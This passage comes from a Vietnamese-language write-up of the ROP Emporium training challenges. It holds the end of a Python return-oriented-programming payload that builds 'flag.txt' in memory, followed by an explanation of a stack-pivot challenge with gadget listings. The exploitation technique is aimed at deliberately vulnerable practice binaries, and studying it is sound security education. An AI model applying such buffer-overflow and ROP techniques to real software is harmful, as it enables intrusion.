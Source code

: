 ```text-x-python
    return indexes

filename = 'flag.txt'
filename_index = find_index(filename=filename) # index of char in binary to create string 'flag.txt'

payload = b''
payload += b'A'*40
payload += p(pop_rdi)
payload += p(data_section_addrs)
for i, index in enumerate(filename_index):
    payload += p(bextr)
    payload += p(length)
    payload += p(base + index - 0x3ef2 - current_rax)
    payload += p(xlatb)
    payload += p(stosb)
    current_rax = ord(filename[i])
payload += p(pop_rdi)
payload += p(data_section_addrs)
payload += p(ret)
payload += p(print_file_addrs)

sys.stdout.buffer.write(payload)
```
## Pivot
Challenge 7 ta sẽ bị giới hạn số lượng bytes có thể overflow do đó ta cần chuyển hướng rsp - stack pointer đến vị trí khác để có thể thực thi

![]({static}/images/ropemporium-2/Pivot/image.png)

Ở challenge này tác giả đã khởi tạo 0x10000000 bytes bộ nhớ và cho địa chỉ tại stdout, ta chỉ cần chuyển hướng stack pointer đến địa chỉ này và sử dụng. 

Hàm memset sẽ chỉ cho phép 0x20 = 32 bytes trong bộ nhớ nên ta chỉ có thể overflow 32 bytes, vừa đủ để pivot stack.

![]({static}/images/ropemporium-2/Pivot/1_image.png)

Do giá trị trên sẽ thay đổi ở các lần thực thi (hàm malloc sẽ trả về giá trị khác nhau) và ta sẽ cần lấy giá trị đó để thay đổi giá trị trong payload trước khi truyền nên cần sử dụng thêm thư viện pwntools 

Payload 2: Lấy địa chỉ đã cho và chuyển hướng rsp tới đó

Các gadget cần thiết

```text-plain
$ python3 Ropper.py -f pivot
...
0x00000000004009bb: pop rax; ret;
0x00000000004009bd: xchg rax, rsp; ret;
```
